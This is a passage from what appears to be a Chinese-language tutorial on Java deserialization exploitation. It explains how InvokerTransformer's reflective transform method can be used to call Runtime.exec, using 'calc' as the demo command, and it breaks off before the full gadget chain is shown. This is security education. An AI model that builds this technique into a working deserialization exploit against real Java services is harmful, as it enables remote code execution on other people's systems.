 ```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);
```

那么我们就从这里入手，一步一步回推到利用链的开始位置：`readObject`



### Java执行命令

在Java中有三种执行系统命令的方式，分别是`Runtime.getRuntime.exec`、`ProcessBuilder`和`ProcessImpl`。`ProcessImpl`方式是前两种方式的底层实现，并不提供给用户调用，但是我们可以利用反射来调用执行系统的命令。在这篇文章中就使用最简单的`Runtime`来执行命令。

在正常情况下，我们使用如下的命令来执行命令：

```java
Runtime.getRuntime().exec("calc");
```

这里使用Runtime的静态方法getRuntime方法获取到一个Runtime对象，然后调用exec方法，执行exec方法中的命令，打开一个计算器。之所以不用new直接创建对象，和Runtime的单例模式有关系。在Runtime类中，构造器为私有的，只提供了一个getRuntime方法获取对象。当然我们也可以使用反射来创建对象，这里就不再说明了。

由于我们需要利用transform方法中的反射来执行系统命令，因此我们将上面的写法用Java反射实现：

```java
Class<Runtime> clazz = Runtime.class;
Method getRuntimeMethod = clazz.getMethod("getRuntime");
Runtime runtime = (Runtime) getRuntimeMethod.invoke(null, null);
Method execMethod = clazz.getMethod("exec", String.class);
execMethod.invoke(runtime,"calc");
```

具体为什么要这么写，在另一篇《java反序列化 - 反射》的文章中有说明，这里不在介绍。



### 使用InvokerTRansformer执行命令

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);
```

在InvokerTransformer类的transform方法中，input是我们传入的想要反射的类，通过getClass获取到类对象。然后调用getMethod方法，传入方法名称、参数类型，最后调用方法的invoke，传入执行方法的对象、方法的参数执行该方法。其中方法名称、参数类型、参数均可以在创建InvokerTransformer对象时，使用构造器设置。对照上面我们自己编写的反射执行系统命令的写法，我们知道input是Runtime的对象，iMethodName是exec，iParamTypes是String.class，iArgs是calc。于是我们就有了如下的写法：
